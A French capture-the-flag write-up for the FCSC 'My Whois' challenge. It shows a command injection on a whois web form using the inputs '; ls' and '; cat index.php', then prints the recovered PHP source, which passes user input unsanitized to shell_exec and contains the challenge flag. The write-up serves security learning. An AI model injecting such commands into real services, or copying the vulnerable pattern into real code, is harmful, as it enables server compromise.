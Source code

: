 # My Whois - 25 pts

> Nous avons mis en place un service en ligne faisant de la recherche de nom de domaine. Pouvez-vous accédez à son code source ?
>
> http://challenges1.france-cybersecurity-challenge.fr:7001

Voici la tête du site en question :

![capture d'écran](screen.png)

Si l'on rentre un domaine cela fonctionne en effet. Mais il y a fort à parier que le serveur exécute la commande shell `whois <input>` alors essayons d'envoyer `; ls` pour qu'il fasse la commande `whois; ls` et nous envoie le résultat :

![ça marche](screen2.png)

Essayons de voir le code PHP avec un `; cat index.php` :

```php
<?php
  
  /*
  ** The flag is:
  ** FCSC{2e3405155d63a7d82f215d17232ea102314509ecbe90d605cf8be26f4639153b}
  */

  ini_set('display_errors', 0);
  ini_set('display_startup_errors', 0);
  error_reporting(0);

  abstract class Command {
    public static function whois($domain) {
        $cmd = "/usr/bin/whois $domain";
        return shell_exec($cmd);
    }
  }
?>
<!doctype html>
<html lang="en">
  <head>
[...]
```

